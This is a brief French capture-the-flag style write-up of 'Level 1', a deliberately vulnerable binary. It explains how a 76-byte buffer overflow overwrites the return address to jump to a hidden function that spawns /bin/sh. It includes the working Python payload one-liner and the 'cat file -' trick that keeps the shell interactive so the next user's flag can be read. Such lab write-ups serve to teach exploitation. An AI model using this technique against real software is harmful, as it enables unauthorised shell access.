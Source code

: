 ## Level 1

Avec cutter ou objdump, on observer deux fonctions:
`main()` et `run()`.
`run()` n'est jamais appelé mais, on y voit un appel a `system(/bin/sh)`.

`main()` contient un buffer de 76 characteres, qu'on peut overflow.

On remplis donc le buffer avec des données random, puis on réecrit l'EIP avec
l'adresse de la fonction run, trouvé avec objdump.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1`

`$ Good... Wait what?`

`$ segfault.`

On arrive a faire executer la fonction caché mais, l'appel a `system()` n'a pas
l'air de réagir.
Cause: l'orsque `system(/bin/sh)` est exécuté, l'entré standart n'est pas
disponible, il faut donc faire en sorte de garder la main sur le shell avec
l'entrée standart:

On ultilise le charactere '-' avec le binaire cat.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/level1`

`$ cat /tmp/level1 - | ./level1`

Et voila, le shell reste a l'écoute de nos commandes. On peut donc naviguer
vers le `/home/` du user level2 et récuperer le flag.
